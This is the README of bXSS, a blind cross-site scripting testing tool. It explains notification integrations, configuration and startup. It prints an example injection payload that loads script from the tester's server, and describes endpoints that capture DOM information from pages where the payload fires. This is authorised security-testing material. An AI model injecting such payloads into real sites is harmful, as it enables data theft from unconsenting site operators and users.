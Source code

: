# bXSS

bXSS is a Blind XSS application adapted from https://cure53.de/m, you can read about it [here](https://ardern.io/2017/12/10/blind-xss/).

![Gif of BlindXSS](./Images/cure53.gif)

bXSS supports the following:

* [Intrusive Levels](./Images/intrusion.jpg)
* [Email](./Images/email.jpg)
    * [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
* [Twilio](./Images/sms.jpg)
* [Slack](./Images/slack.jpg)
* [Webex Teams](./Images/cisco.jpg)
* [Discord](./Images/discord.jpg)
* [Payload Generation](./Images/payloads.jpg)
* [Save locally](./Images/file.jpg)

# Requirements

* A server you control
* A usable domain
* Node.js and Express
* A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) (Optional)
* A [Gmail](https://gmail.com) account, to send reports via Nodemailer (Optional)
* A [Twilio Account](https://www.twilio.com/sms) (Optional) 
* A [Slack Token](https://api.slack.com/docs/token-types) (Optional)
* A [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details) (Optional)
* A [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token) (Optional)

# Step-Up

## Default
* cd bXSS && npm install 
* Update The Configuration || Environment Variables 
    * Domain
        * config.url = Domain intended for use e.g ardern.io
        * config.port = Port to run the Node.js app e.g 3030
    * Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b> 
        * config.twilio.accountSid =   [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
        * config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
        * config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
        * config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
    * Slack <b>(Optional, if you don't want to use Slack just delete all Slack references from the config)</b> 
        * config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
        * config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
        * Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
     * Cisco <b>(Optional, if you don't want to use Cisco just delete all Cisco references from the config)</b> 
        * config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
        * config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']     
    * Discord <b>(Optional, if you don't want to use Discord just delete all Discord references from the config)</b> 
        * Steps to create a bot:
            * Visit https://discordapp.com/developers/applications/
            * Create a new application (e.g bXSSForCompany)
            * Make a note of your CLIENT ID
            * Select 'Bot' 
                * Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
            * Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
            * Select the server you want your bot to join and authorize
            * Update the following values below for the bot to post to the 'text channel' e.g ('general')
        * config.discord.token = 'your bot token'
        * config.discord.channel = 'channel you want it to join, e.g general'    
    * Gmail <b>(Optional, if you don't want to use Gmail just delete all Gmail references from the config)</b>    
        * config.gmail.user = Gmail Username
        * config.gmail.pass = Gmail Password
        * config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
        * config.gmail.from = Who sent the message, usually Gmail Username
    * Rename configExample.js to config.js
* Start your app (depending on your preference)
    * node app.js
    * pm2 start app.js 
    * nodemon app.js

## Additional Steps (Optional)

* Obtain a let's Encrypt cert
    * [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
    * [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
* I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
* Using Node.js
    * Update Configuration 
        * config.letsEncrypt.TLS = true;
        * config.letsEncrypt.publicKey = $Path/fullchain.pem
        * config.letsEncrypt.privateKey = $Path/privkey.pem
        * config.letsEncrypt.ca = $Path/chain.pem
* Start your app (depending on your preference)
    * node app.js
    * npm2 start app.js 
    * nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
````

The application has three core functions

* POST - /m (captures DOM information)  
* GET - /m (Loads the payload)
* Payloads - /payloads (Gives payloads you can use for testing blind xss)
* Everything else - Loads alert(1)


# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
